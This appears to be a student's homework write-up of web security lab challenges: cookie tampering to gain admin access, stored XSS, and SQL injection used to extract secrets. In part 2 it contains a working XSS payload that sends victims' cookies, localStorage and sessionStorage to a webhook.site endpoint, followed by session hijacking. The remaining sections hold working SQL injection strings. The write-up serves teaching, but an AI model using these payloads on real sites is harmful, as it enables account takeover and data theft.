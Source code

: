 # HW 3
Author: Derek Xu
# 1
Being an admin is most likely controlled by some sort of state on the client or server side. Looking at my cookies, I saw an "admin" cookie which I changed to True. This then allowed me to retrieve the secret.

![admin_cookie](images/admin_cookie.png)
![admin_secret](images/admin_secret.png)

This works most likely since the server is looking for an admin cookie when determining if a user is admin or not. Changing the cookie user side lets us get through that verification.

# 2
This is an XSS attack which also takes advantage of a non HTTP-Only cookie that can be read by Javascript.

Using webhook.site, you can setup a url that you can see all the calls made to it.

You can add a Javascript script to your posts and other clients will run the Javascript when they view your page.

```HTML
<script>
fetch('https://webhook.site/34b9219c-7413-4c75-a889-41c33a3a7459', {
    method: 'POST',
    body: JSON.stringify({
        cookies: document.cookie,
        url: location.href,
        localStorage: localStorage,
        sessionStorage: sessionStorage,
        document: document,
        referrer: document.referrer,
        userAgent: navigator.userAgent
  })
});
</script>
```

Then at my endpoint, I received the following request

![hansolo request](images/hansolo_request.png)

Changing my session token to the one received, I was able to login and see Han Solo's secret

![hansolo secret](images/hansolo.png)

Whenever hansolo looks through my page, the inserted Javascript runs automatically and sends their cookies to my endpoint, allowing me to steal their session.

# 3
At the Retrieve message input, I first tried a variety of SQL injections including 

```SQL
" OR 1
```

This output `An error occurred: unrecognizedtokenOR1`

So I ended the quote and tried a variety of statements. I found that statements that equal true give the answer. 

```SQL
"" OR 1
1 OR 1
```

This gave me `1Sh0uldHaveH1dd3nThisBetter`

![message](images/message_secret.png)

The SQL query is most likely checking for some sort of truth statement to give the secret message. So by giving it a truth statement, the SQL query succeeds.

# 4

After trying a variety of different SQL injections, I found that running SQL queries after a quote let me insert my own code. In the location finder, I first tried

```SQL
" OR "1" = "1`
```

This gave me a list of presumably all the users who have been at any location. I found "gianluca" as one of the users. 

![userlocs](images/location_names.png)

Then I tried 

```SQL
" OR "1"
```
![locerror](images/location_error.png)

This gives an error `locname error` and I found out that the field name used for location names is "locname".

So I queried for locname like a string using wildcard symbols such as %.

![locquery](images/location_query_final.png)

After iterating and trying to find each letter one at a time, each successful letter returns a "gianluca was there". So I kept adding until the following worked for the flag.

```SQL
" OR "locname" LIKE "cogoleto%
```

The SQL query is most likely looking to insert the input at "%s". So we terminate the first quote, add our own SQL query and use the end quote for our own statements. This way we can run SQL injections.
